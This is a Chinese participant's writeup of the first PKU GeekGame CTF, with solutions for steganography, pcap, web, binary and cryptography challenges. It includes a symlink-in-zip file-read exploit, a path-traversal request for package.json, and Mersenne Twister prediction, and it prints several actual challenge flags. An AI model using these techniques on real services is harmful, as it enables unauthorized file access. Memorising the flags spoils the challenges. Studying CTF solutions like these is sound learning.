





# 第一届PKU GeekGame CTF 比赛Writeup

昵称：Lysithea

最终得分：920

名次：32（校内）

[TOC]

## Misc

### 1. 签到

下载的PDF用acrobat打开，用编辑功能查看发现有两段特殊字体文本框，改为Times New Roman并缩小字号，发现是栅栏式加密，用python的zip函数快速得到结果

### 2. 小北问答 Remake

一阶段做出5题，二阶段全解

1. 理科楼有5个，我都在燕园5年了，这不是常识吗？（笑
2. 上届总注册人数，我查到了上届比赛的[新闻](https://news.pku.edu.cn/xwzh/203d197d93c245a1aec23626bb43d464.htm)
3. (二阶段) google到一个东西叫证书透明度日志，对过往的ssl证书有记录（所以查询现有证书的工具是没用的）。很后期才了解到这种东西是有工具可以查的。最后在[https://crt.sh/?id=4362003382](https://crt.sh/?id=4362003382)查到了上一个证书的过期时间，秒数以3结尾符合正则。最后，**这个正则有点离谱啊，为什么+08:00不是表示GMT+08:00，下次再出日期能不能好好写个CST之类的（摔**
4. 这个比赛已经结束，万幸这个题保留了一个[playable的静态网站](https://oooverflow.io/dc-ctf-2020-quals/)，访问签到题，获取flag
5. (二阶段) 不给提示确实联想不到（所以小北问答给我再多时间也不能在一阶段插），给了提示才意识到我思维深处有个叫OEIS的网站可以查整数数列。可以查到[A047659](http://oeis.org/A047659)是三个nonattacking queen在nxn棋盘上的解，而mxn作为一种generalization写在这一节的小注里，计算得到结果。
6. 查询上届存档的github地址，找到原题choice和数据库交互的[db.py](https://github.com/PKU-GeekGame/geekgame-0th/blob/main/src/choice/game/db.py)，可以看到sql语句，包含表名
7. (二阶段) 这个很迷惑，我一开始在国内的[boip.net/asn](https://boip.net/asn)利用域名查到的号是AS4538，我一直以为这是正解。但后来再其他网站（比如[查错网](http://as.chacuo.net/)）发现还有两个网AS59201和AS24349，名字是带Peking University的（后者是正解）。现在复盘才意识到AS4538是北京教育网，但查ip只能查到最外面一层公网，里面的内网是查不到的。
8. 在信科官网-学院概况-[组织架构](https://eecs.pku.edu.cn/xygk1/zzjg1.htm)可以看到信科下属的实验室和中心名称。但是这里【最长的射频和太赫兹集成电路研究中心】才12+2个字。在下面各个系的官网查看，才发现电子学系底下还有更能打的（区域光纤通信网与新型光通信系统国家重点实验室，北京大学纳米器件物理与化学教育部重点实验室），不选后者应该是因为有前缀北京大学

### 4. 翻车的谜语人

#### 4.1 flag1

本题提供了一个pcap抓包，用wireshark软件可以解读。右键对TCP流进行追踪。

在3号流中发现可疑Referer：http://192.168.17.128:28888/edit/flag1.txt，可疑JSON字段（flag2.7z，flag2.txt，flag2.wav）等等，此为最初的线索。

在1号流中发现python的代码包含在一个json文件里，溯源后发现内容来自一个jupyter notebook（见`prob07/get_json.json`），请求头：`GET /api/contents/Untitled.ipynb?type=notebook&_=1636184673805 HTTP/1.1`。阅读代码发现几个关键点：

- 函数genflag：产生Crypto.Random.get_random_bytes产生的16Byte随机数，之后进行base16编码，加上前后缀flag{}，长度为38。
- 还有一个变量key也用这种方法生成，长度也为38，并且可以看到程序的输出，这就是key的值
- 函数xor_ench，对key和flag按位异或，得到encoded_flag1和2，最终得到38个字节
- 最后把encoded_flag1的base16编码存入flag1.txt（所以是76个ascii字符），flag2没有后续处理

回到3号流，根据Referer直接找到访问flag1.txt的请求：`GET /api/contents/flag1.txt?type=file&format=text&_=1636184605693 HTTP/1.1`，返回是一个json，且content字段为76位且仅包含0-9,a-f，结合前面对ipynb源码分析，推定这就是flag1.txt的内容。按之前处理过程，进行base16解码->和key异或->decode为字符串，可直接得到flag1的内容

```python
import binascii

key = b'\x1e\xe0[u\xf2\xf2\x81\x01U_\x9d!yc\x8e\xce[X\r\x04\x94\xbc9\x1d\xd7\xf8\xde\xdcd\xb2Q\xa3\x8a?\x16\xe5\x8a9'
flag1_file = '788c3a1289cbe5383466f9184b07edac6a6b3b37f78e0f7ce79bece502d63091ef5b7087bc44'

def get_flag(flag1_file):
    encoded_flag1 = binascii.unhexlify(flag1_file)
    unkeyed_flag1 = []
    for ii in range(len(key)):
        unkeyed_flag1.append(key[ii]^encoded_flag1[ii])
    flag1 = bytes(unkeyed_flag1).decode()
    return flag1

flag1 = get_flag(flag1_file)

print(flag1)
# flag{9d9a9d92dcb1363c26a0c29fda2edfb6}
```

#### 4.2 flag2

在6号流中，查到了和1号流不同的python代码，包含了`with open('flag2.txt','wb'):`，推定是flag2.txt写入的信息。前面的处理都是一样的

> 复盘时才发现6号流这里输出的key和之前1号流中flag1不同，但是最终的处理用到的是同一个key。当时没想那么多，现在有点解释不清。可能是ipynb分段执行，随机数没有重新生成。说到底这里找到的请求只是修改代码，具体的执行要另外找，而且可能难度很大。如果flag2真的是用6号流这里的随机数key处理的，那么这个题可能我会多用几个小时时间

对flag2的可疑字段查询，最终在3号流发现了flag2.7z的GET请求：`GET /files/flag2.7z?download=1 HTTP/1.1`，按请求名称推测在下载文件，于是看返回的内容，是二进制码，且文件头7z，因此推定是flag2.7z文件本体。

> 小插曲：直接复制wireshark显示的内容，复制到flag2.7z文件中，用7zip解压发现无法解压，于是用二进制文本编辑器查看，发现大量的2E字节，ASCII码表为英文句点。这是因为wireshark文本框对不能显示的字节值都会被转义为句点。解决方案是直接显示原始数据，这样会显示raw data的base16编码。操作上我们把整个流复制到一个文件里，简单写了一个正则把数据夹出来。
>
> ```python
> # Content-Length: 2935226\r\n\r\n
> # 436F6E74656E742D4C656E6774683A20323933353232360D0A0D0A
> 
> # DELETE /api/contents/flag2.txt HTTP/1.1
> # 44454C455445202F6170692F636F6E74656E74732F666C6167322E74787420485454502F312E31
> import re
> import binascii
> 
> CTLEN = '436F6E74656E742D4C656E6774683A20323933353232360D0A0D0A'.lower()
> DELE = '44454C455445202F6170692F636F6E74656E74732F666C6167322E74787420485454502F312E31'.lower()
> huge_7z_ptn = '%s([\S\s]+)%s'%(CTLEN, DELE)
> 
> with open('tcp3_stream_in_base16.txt','r') as f:
>  full_session = f.read()
> 
> huge_7z = re.findall(huge_7z_ptn, full_session)[0]
> 
> with open('flag2.7z','wb') as f:
>  f.write(binascii.unhexlify(''.join(huge_7z.split('\n'))))
> ```


尝试对flag2.7z解压，发现需要密码。此刻我们对这个文件还没有了解，因此继续在抓包中寻找信息。

在11号流（见`prob07/tcp11_stream_ascii.txt`）中找到一处flag2.7z，多处flag2.wav，并且看到了【7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov 】之类的。结合大量的stdout，推定是shell执行的结果。但是这段流并不是HTTP协议的，可以看到客户端的请求是二进制码，服务端返回的是ASCII字符。下面的分析是针对这个shell的

- 整个会话呈现两种形态：请求/响应交替，推定是用户输入以及服务端回显；连续的响应，推定是服务端的输出。通过回显，即使用户输入不解码我们也可以推定出用户输入的命令
- 第一条命令是`pip3 install stegolsb`，这个软件可以对wav格式作LSB隐写，推定是隐藏数据的方式
- 第二条命令是`stegolsb wavsteg -h -i ki-ringtrain.wav -s flag2.txt -o flag2.wav -n 1 `（注意回显中会包含退格符\b），结合stegolsb的文档可以判断是把flag2.txt藏在了ki-ringtrain.wav文件中，输出到flag2.wav文件
- 第三条命令是：7za a flag2.7z flag2.wav -p"Wakarimasu! \`date\` \`uname -nom\` \`nproc\`"，这条就是压缩命令了，可以看到密码中包含了shell的反引号表达式，因此我们需要预测这个命令的结果
  - nproc：返回处理器数量（核数）。在7zip的执行过程中很方便地返回了计算机的基本信息【(locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i7-10510U CPU @ 1.80GHz (806EC),ASM,AES-NI)】，可以看到是8核CPU
  - uname -nom：这个参数会返回三个信息：计算机名、架构、操作系统。操作系统猜测是GNU/Linux（肯定是Linux，具体是哪种Linux不清楚，我采用自己的wsl上运行的结果）。计算机名在回显的prompt里反复出现，是you-kali-vm。架构根据我帮人装机的有限的常识，Intel CPU（见上一条）的架构高概率都是x86_64
  - date：返回时间，具体到秒。这条命令的具体运行时间发生在请求发出之后响应返回之前，wireshark可以记录这些行为的时间戳：【Nov  6, 2021 15:44:15.190826000 中国标准时间】。然后比较tricky的是Locale的问题，我在自己wsl上把LC_TIME环境变量改为en_US（见第一条），获取了date的格式，最终结果是Sat 06 Nov 2021 03:44:15 PM CST


最后解压后得到flag2.wav，按stegolsb文档进行`stegolsb wavsteg -r -i flag2.wav  -o flag2.txt -n 1 -b 76`可得到被隐写的flag文件，读取后用之前flag1的处理代码得到原始flag：flag{ffdbca6ecc5d86cb71cadfd43df36649}

### 5. 叶子的新歌

本题考查mp3文件的隐写。我拿到了一个flag，一个flag进行到了最后一步（大概）

#### flag: 夢は時空を越えて（一阶段插旗）

首先使用python的mutagen包提取ID3标签到文本文件（这段直接在python shell里执行的，代码没有保留）。

TALB标签直接明示封面里有秘密，我自然也是这么想的。APIC标签即是封面图，输出到文件，发现是一张1000x1000的png图

图片表面看不出异常，猜测用隐写软件藏了数据，用stegsolve尝试提取，果然发现RGB三个通道的最低位包含PNG文件头，存为二进制文件lsb.png，发现是一个非常规的二维码，谷歌一下了解到这种码被称为Aztec code，并且有[在线解码的网站](https://products.aspose.app/barcode/recognize/aztec)

| 得到的二维码                                         | 谷歌到的一张图                     |
| ---------------------------------------------------- | ---------------------------------- |
|  |  |

得到的结果是一个字符串Gur frperg va uvfgbtenz.。直觉猜测是某种简单的映射，因此做了凯撒，果然平移13位后得到有意义的信息The secret in histogram，算是一个hint。观察原图发现确实灰度有不自然的变化。于是读取图片后用matplotlib库画成直方图，发现构成了一个一维码

```python
import cv2
import matplotlib.pyplot as plt

img_path = 'lsb_possi.png'
img = cv2.imread(img_path)
# EXIF: 8bit Gray, so all channel and range 0~256 will do
plt.hist(img.ravel(),256,[0, 256])
plt.show()
```



用华为手机自带的相机app中的扫码功能，可以扫出一个网址：[xmcp.ltd/KCwBa](https://xmcp.ltd/KCwBa)

> 小插曲：这个码我尝试传到各种一维码解码网站都解不出来，微信扫码也扫不出来，还查了各种一维码的编码原理，如code128，一度以为这不应该解读为一维码而是01串，但是无论big endian还是small endian都不是ascii码，一度以为是某种特别的加密。花了几个小时搞不定，结果拿出华为手机自带的相机app扫了一下……结果就扫出来个网址，这合理吗？？我只能说Huawei NB, 国产之光

网址中包含了大量的Ook，标点符号有.?!三种。三元的编码从来没有见过，于是谷歌Ook，结果发现是brainfuck语言的一个变种。刚好有[方便的网站](https://www.splitbrain.org/services/ook)可以处理这种代码，得到flag: flag{y0u_h4ve_f0rgott3n_7oo_much}

#### flag: 红白机相关（未解出）

虽然没拿到flag但是也是实打实投入了六七个小时，我怀疑已经进行到最后一步了，于是把前面的过程写个writeup。

接上一节ID3标签，有一条TXXX=TRACKTOTAL=aHR0cDovL2xhYi5tYXh4c29mdC5uZXQvY3RmL2xlZ2FjeS50Ynoy，尝试进行base64解码，得到一个URL[http://lab.maxxsoft.net/ctf/legacy.tbz2](http://lab.maxxsoft.net/ctf/legacy.tbz2)，这是一个压缩文件，用7zip可以直接解压缩，得到一个foryou.txt和To_the_past.img。txt里没有有效信息，img也可以用7zip直接打开（7zip yyds）

img解压后包含两个文件，MEMORY.ZIP，NOTE.TXT。ZIP文件有密码，TXT说密码是：宾驭令诠怀驭榕喆艺艺宾庚艺怀喆晾令喆晾怀，百度一下发现是纸币印制过程中，箱外代码和数字的映射，转换后是72364209117514983984，这就是ZIP文件的密码。

ZIP解压后得到三个文件：left.bin, right.bin, readme.txt。TXT提示我们找不同，观察两个二进制文件前面几十个字节，发现仅仅从单个文件做了单字节的删除和插入可以得到后面的文件。这样还不确定对找到的“不同”要怎么处理，因此我写了python脚本将left中多余的字节、right中多余的字节、left或right中多余的字节写入文件（见`prob05/sep_left_right.py`）

观察得到的三个文件头，发现第三种（left或right）文件头是NES，猜测是NES（红白机）镜像格式，文件大小等等信息也能对上。考虑到TXT中提到了超级马里奥，刚好手头有FC初代马里奥的ROM于是进行了文件对比，结果惊奇地发现大半的内容是一致的（我还看了手头其他FC游戏的ROM，都很不一样，你说怎么就那么巧，刚好拿的就是马里奥）。因此运行VirtualNES模拟器，发现就是一个FC初代马里奥的改版ROM。模拟器查看文件信息等等没有异常，按照一个游戏玩家的直觉，信息是通关后解锁（关底文本，那个著名的Your Princess is at another castle）。作为马里奥制造4000分玩家（←真的）我自然有实力通关，但是我们可以使用远古游戏的作弊手段——金手指。这里我们用到了三个金手指：

- 075F-01-00 选大关
- 0760-01-00 选小关
- 079F-01-00 金身

由此达成快速通关，得到通关后在关底文本中发现第三个网址



这个网站要求输入软盘最后的密码，很可惜我们软盘是直接解压的，因此没有密码，线索断了

## Web

### 6. 在线解压网站

首先根据源码判断服务器是Linux系统，框架为flask，服务逻辑是上传的文件重命名为tmp.zip，用unzip命令解压到media文件，之后重定向到media页面。media页面有一个简单的文件索引系统，获取url的路径参数，如果是目录则返回目录下的文件列表，如果是文件则发送该文件内容。

Flask常见的一个漏洞即所谓模板注入攻击（SSTI），但本题中不好用，因为文件索引系统并没有使用模板渲染，而是直接读入模板文件进行正则替换。

最终我的方案是利用Linux软链。由于软链只存储文件路径不存储内容，

```bash
$ mkdir dev
$ mkdir dev/shm
$ mkdir dev/shm/zip
$ mkdir dev/shm/zip/media
$ echo blahblah >> flag
$ cd dev/shm/zip/media
$ ln -s ../../../../flag fff
$ zip --symlinks tmp.zip fff
```

上传这个文件，点击fff文件，下载的文件即是flag文件本身

参考了[https://blog.csdn.net/keyball123/article/details/105169946](https://blog.csdn.net/keyball123/article/details/105169946)

### 9. Flag即服务

（只在二阶段做出第一问）

网页写明了后端是nodejs。众所周知nodejs项目根目录下都有一个package.json记录项目的重要信息（当然二阶段提示之后我才想到这一点。之前没写过nodejs，只是看过几个nodejs项目，这一点没留下深刻印象）

因为浏览器会对..作转义，因此我用python的http.client库构造了一个带..的URL勾出package.json文件

```python
import http.client as hc
conn = hc.HTTPSConnection("prob11-zg4fphs4.geekgame.pku.edu.cn")
conn.request("GET","/api/../package.json")

r1 = conn.getresponse()
print(r1.status, r1.reason)
# print(r1.getheaders(),'\n')
print(r1.read())
conn.close()
# 200 OK
# b'{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}'
```

这个package.json中意外地包含了项目源码的地址，可以直接下载

> 复盘时想到，这个漏洞可能可以用来做压缩文件那个题，于是试了一下，返回400 Bad Request。后来谷歌才知道这个漏洞是nodejs某些特定版本才有的，来自express和nodejs不兼容的问题

getflag.js中读取了三个文件中的flag，并使用unlinkSync删除。index.js中，可以看出flag0的值就是\`flag{${0.1+0.2}}\`，这是一个格式字符串，因此我们需要返回0.1+0.2，js中默认为double类型，这个运算结果为0.30000000000000004，这也就是flag0的值

后面两个flag就不会了，flag1存在变量里，可能需要一个执行任意代码的漏洞。flag2因为被赋值掉，所以很可能要执行系统命令从硬盘里恢复，也可能存在nodejs内部的其他地方，但肯定也要执行任意代码，即使根据提示看了qs和path-to-regex文档也没有发现什么可以利用的点。期待其他大佬的writeup

## Binary

### 10. 诡异的网关

（二阶段插旗）

（考虑到涉及文件的变化，首先建立git仓库便于回滚）

直接打开exe（一般来说恶意软件不建议这么做）

考虑到提示，发现一个保存的用户名为flag，密码未知，推定密码就是flag

尝试输入自己的账密（假的）连接，发现会弹出两种提示，密码过短或者账号被封。flag的账密也是账号被封。自己的账密不能被保存。

根据提示，首先尝试观察文件，发现删除config.xml不会影响功能，删除dll会导致程序无法启动，删除config会导致启动后用户名无法正常加载。

尝试forget flag账户发现config文件内容发生变成了类似config.xml的形态，但是删除config.xml不影响，说明数据是存在exe文件中或者网络IO。想到网络IO是很自然的，首先这是个网关，因此必须要向its.pku.edu.cn通信；其次这是个恶意软件，从攻击者角度是希望账密能够通过网络IO传输到自己的服务器上。为了验证，我还用任务管理器里的资源监视器查看网络活动，果然在点击连接时，出现了向its.pku.edu.cn和ns.pku.edu.cn通信的流量。

Windows上用wireshark抓包似乎需要一些配置（暂时没有搞定），因此我尝试用Cheat Engine查看内存，变换几个用户名之后，果然在内存中直接发现了对its的访问，密码还是明文，因此直接用flag账户登录，果然在相同位置看到了包含flag的密码。

|                     |                     |
| ------------------- | ------------------- |
|  |  |


> 其实这个算是复盘的思路，真正做的时候思路没这么清楚。当时没有意识到这个网关真的是有网关功能的，会去和its通信，只是想到账密可能会存在内存里，而且不同账户可能会用数组，所以就试了一下，结果没想到发现了对its的HTTP请求，故事一下子就串起来了。实际上更优雅的解法还是应该扫描端口后用wireshark。而且如果程序在请求后用随机bit掩盖HTTP请求，CE解法会完全失效，但wireshark不会。不过密码是明文传输这一点属实是巨大漏洞。

## Algorithm

### 15. 密码学实践

（二阶段只插flag1）

二阶段做的时候发现这个第一问完全不涉及RSA加密，不需要提示也可以插，挺可惜的，时间都浪费在别的题了

第一个flag只需要对MESenc函数进行解码。这个函数输入一个信息mess和密钥skey，其中key是8*32字节，mess长度是32字节整数倍。之后对mess的每32个字节组成的串，进行如下处理：

1. mess分割为4个8字节串，转换为长整数a,b,c,d。skey也分割为32个8字节串key
2. 对每个key，进行a,b,c,d=b,c,d,a^c^key的运算，共32次
3. 转换会32字节串
4. 把所有如此转换的字节串连接

如此看来，每32个字节作为一个编码单位。此外，上述加密方式只要知道一组32字节的明文和密文即可对任意密文解码，证明如下：

- 记上述第二步为$A,B,C,D=X(k)(a,b,c,d)=b,c,d,a\wedge c\wedge k$。k是算符X的参数。
- 可以验证$X(k)=X_{k}X_r$，其中$X_r(a,b,c,d)=b,c,d,a\wedge c$，$X_{k}(a,b,c,d)=a,b,c,d\wedge k$。
- 根据异或的性质，可以验证$X_r^6=I, X_{k}^2=I$。
- 记$X_k^{(n)}=X_r^nX_k(X_r^{-1})^n$，可以验证$X_rX_k^{(n)}=X_k^{(n+1)}X_r$，$(X_{k}^{(n)})^2=I$
- 整个编码过程可以记作$X_t=X_{k32}X_rX_{k31}X_r\ldots X_{k1}X_r$，利用上一条性质可以把所有$X_r$项放到$X_k^{(n)}$项的最后面，每个$X_k^{(n)}$项对应的n等于这一项前面的$X_r$项的个数，即：$X_t=X_{k32}^{(0)}X_{k31}^{(1)}X_{k30}^{(2)}\ldots X_{k1}^{(31)}(X_r)^{32}=X_K(X_r)^{32}$
- 可以验证$X_K^2=I$，依据是$X_{k}^{(n)}$可交换和幂0性，则解码方式可以表示为：$X_t^{-1}=(X_r^{-1})^{32}X_K$
- 最后关于$X_K$：因为每一项都是使四个整数的一个或两个和k做异或运算，所以根据异或的结合律$X_K$可以形式地写成$X_K(a,b,c,d)=a\wedge A,b\wedge B,c\wedge C, d\wedge D$，其中$A,B,C,D$是根据所有的k运算得到的四个数。对每次编码，这四个数都是一样的。

于是MECenc的解密算法MECdec可以描述如下：

- 解出$A,B,C,D$：从已知明文出发，按加密方式一样的操作，但把k都去掉，最后得到四个整数，和已知密文逐个异或，得到A,B,C,D
- 解密新密文：与上一步得到的A,B,C,D分别异或，然后进行不带k加密时的逆运算`a,b,c,d=b^d,a,b,c`共32次，即可得到明文。

最后，因为flag1藏在Richard的第一段字符串密文里，而源码给出了最前面超过32个字符的明文，我们可以据此解密整个字符串，得到flag1。

代码见`MEC_dec.py`

### 16. 扫雷

（二阶段只插flag1）

根据提示查阅资料，发现python的随机数实现方式为梅森旋转，原理上根据624个32位随机数即可预测后续的随机数。事实上github确实有现成的工具：[randcrack](https://github.com/tna0y/Python-random-module-cracker)

首先分析扫雷程序随机数的生成方式：用random.getrandbits生成256个随机位，从最低位开始，按从上到下从左到右的顺序填充到棋盘中，1代表雷，0代表无雷。

然后固定random.seed测试random.getrandbits函数的生成顺序，发现最早生成的随机位出现在最低位。生成256个bit，实际相当于生成了8个32位整数。因此为了达成624的最低要求，我们需要输78局扫雷，然后在79局通过预测的雷区分布达成背板一命通关。

最后就是编程实现了。程序主要分为和服务器IO部分和算法逻辑部分。（这个IO的code调试了蛮久的，还想着能在其他题用上，结果要用自动化终端的题只有这一个会做，笑死）

代码见sweeper_cheat.py

## 个人小结

16号晚上之前我还不知道这个世界上存在一种叫做CTF的比赛，只是填报出入校的时候偶然看到了上面的推送，有点好奇就点进来了，抱着试一试的心态就参加了比赛。我不是计算机专业，没修过ICS，最多只是用python写过些小爬虫而已。无论是知识储备还是码力感觉自己才刚刚够到这比赛的最低门槛，绝大多数情况都是靠着CTF Wiki，谷歌和众多博客现学现卖，可能也看了不少CTF人总结的曾考过的题目。所以最终能拿一个32名的成绩已经非常超出我的预期了（当然没奖金拿还是有点小可惜，毕竟有策略而非能力的因素在，但anyway都过去了）。

Misc题是我这种小白做的最快乐的一部分题，虽然需要些知识储备（which都能谷歌到）但是门槛意外地不是很高（当然隐写题做的我很难受，毕竟做了一半线索断了）。Web题做之前我没有看过后端代码，所以是抱着开眼界的心态来做题的，几个题都尝试了一下，特别是阶段二去研究qs和path-to-regexp的文档很长时间，也没得到什么结果。Binary题让我这种没学过ICS的人就比较抓瞎，不过还好网关题比较straightforward，直接拿CE扫一扫也能找到结果。Algorithm题其实一阶段的时候默认自己没时间做出来就直接没去看，最后发现两个第一问那么简单其实还是有点尴尬的，不过触及核心的部分果然还是没那么容易的。

总之就是，第一次玩非常开心，学习为主，之后稍微补点知识刷点题，下届第一时间赶来参赛:)
